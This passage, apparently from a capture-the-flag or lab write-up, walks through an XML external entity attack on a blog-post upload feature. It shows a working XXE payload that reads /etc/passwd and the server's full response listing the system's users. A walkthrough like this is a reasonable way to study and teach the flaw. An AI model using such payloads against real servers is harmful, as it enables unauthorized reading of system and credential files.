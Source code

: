 For that reason, we have created an XML file with the help of the following code and saved as Attack.xml  

{% highlight xml %}
<?xml version="1.0"?>
  <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
  ]>
  <feed>
    <Author>Gerh</Author>
    <Subject>BinaryChaos</Subject>
    <Content>&xxe;</Content>
  </feed>
{% endhighlight %}  

Since the system is a Linux system, I’ve requested the **/etc/passwd** file.  
This file will allow us to see what users are on the machine.  
Here is what came back when we uploaded the XML file to the server:  

{% highlight markdown %}
 PROCESSED BLOGPOST: 
  Author: Gerh
 Subject: BinaryChaos
 Content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
git:x:1001:1001:git,,,:/home/git:/bin/bash
